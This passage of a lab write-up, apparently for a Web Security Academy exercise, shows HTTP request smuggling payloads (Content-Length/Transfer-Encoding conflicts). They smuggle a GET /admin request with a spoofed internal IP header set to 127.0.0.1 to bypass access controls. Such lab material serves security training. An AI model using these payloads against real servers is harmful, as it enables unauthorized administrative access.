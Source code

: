 The most relevant header seems to be:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
X-XfXVAo-Ip: 2.139.0.137
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

But the /admin page is still not accessible:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 163
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0ac500e8047b641f8198991e00ce0039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-XfXVAo-Ip: 2.139.0.137

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/ad1514028158e97c8f83b87c57bd864e.png)

It is necessary to use the discovered header with the ip address 127.0.0.1:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-XfXVAo-Ip: 127.0.0.1

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~